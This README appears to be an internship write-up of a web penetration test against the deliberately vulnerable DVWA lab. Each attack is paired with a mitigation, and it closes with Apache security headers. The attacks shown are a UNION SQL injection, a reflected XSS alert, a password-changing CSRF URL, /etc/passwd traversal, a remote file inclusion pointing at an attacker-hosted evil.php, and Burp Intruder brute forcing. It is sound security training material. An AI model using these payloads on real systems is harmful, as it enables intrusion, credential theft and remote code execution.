





# 🛡️ Task 3: Web Application Penetration Testing & Hardening

**Internship Domain:** Cybersecurity & Ethical Hacking
**Target System:** DVWA (Damn Vulnerable Web App) running on Metasploitable 2
**Tools Used:** Burp Suite Professional/Community, Firefox, FoxyProxy, SQLMap
**Date:** January 2026

---

## 📌 1. Objective
The goal of this task was to assess the security posture of a web application by identifying common OWASP Top 10 vulnerabilities. The assessment included exploiting these flaws to demonstrate impact and implementing server-side mitigations to secure the application.

---

## 💉 2. SQL Injection (SQLi)
**Vulnerability:** The application fails to sanitize user input in the "User ID" field, allowing attackers to manipulate SQL queries.

### 🕵️ Exploitation
* **Vector:** Boolean-based and UNION-based injection.
* **Payload Used:** `' UNION SELECT user, password FROM users#`
* **Impact:** Complete database compromise. We successfully retrieved the entire user table, including hashed passwords.

**Evidence:**

*(Figure 1: Retrieving admin credentials and password hashes)*

### 🛡️ Mitigation
* Use **Prepared Statements** (Parameterized Queries) in PHP (PDO) instead of concatenating strings.
* Implement strict input validation (allowlist integer input only).

---

## ❌ 3. Cross-Site Scripting (XSS)
**Vulnerability:** The application echoes user input back to the browser without escaping HTML characters.

### 🕵️ Exploitation
* **Type:** Reflected XSS.
* **Payload:** `<script>alert('Hacked')</script>`
* **Impact:** An attacker can execute arbitrary JavaScript in the victim's session, leading to cookie theft or session hijacking.

**Evidence:**

*(Figure 2: Execution of malicious JavaScript payload)*

### 🛡️ Mitigation
* Output Encoding: Convert special characters into HTML entities (e.g., `<` becomes `&lt;`) before displaying data.
* Implement a **Content Security Policy (CSP)**.

---

## 🎭 4. Cross-Site Request Forgery (CSRF)
**Vulnerability:** Critical actions (like password changes) are performed via simple GET requests without anti-CSRF tokens.

### 🕵️ Exploitation
* **Method:** A malicious URL was crafted to change the admin password without their consent.
* **Payload URL:** `.../vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change`
* **Impact:** Account Takeover.

**Evidence:**

*(Figure 3: Admin password successfully changed via external link)*

### 🛡️ Mitigation
* Implement **Anti-CSRF Tokens**: A unique, random token must be required for every state-changing request.
* Check the `Referer` header.

---

## 📂 5. Advanced: File Inclusion (LFI & RFI)
**Vulnerability:** The `page=` parameter loads files dynamically without validation.

### A. Local File Inclusion (LFI)
* **Attack:** Accessed sensitive system files (`/etc/passwd`).
* **Payload:** `../../../../../../etc/passwd`
* **Result:** Leaked system users and root configuration.



### B. Remote File Inclusion (RFI)
* **Attack:** Forced the server to execute a malicious PHP script hosted on our attacking machine.
* **Payload:** `http://[Attacker-IP]/evil.php`
* **Result:** Remote Code Execution (RCE) achieved.



---

## 🛠️ 6. Advanced: Burp Suite Intruder (Brute Force)
**Objective:** Bypass authentication using automated fuzzing.

* **Tool:** Burp Suite Intruder.
* **Method:** Captured the login request and fuzzed the `password` field against a wordlist.
* **Finding:** The correct password resulted in a different response length compared to failed attempts.

**Evidence:**

*(Figure 4: Intruder results table identifying the valid credential)*

---

## 🔒 7. Hardening: Web Server Security Headers
**Finding:** The web server was missing critical security headers.
**Remediation:** We configured Apache to enforce security policies.

### Applied Configuration (Apache):
```apache
<IfModule mod_headers.c>
    Header set X-Frame-Options "SAMEORIGIN"
    Header set X-XSS-Protection "1; mode=block"
    Header set X-Content-Type-Options "nosniff"
</IfModule>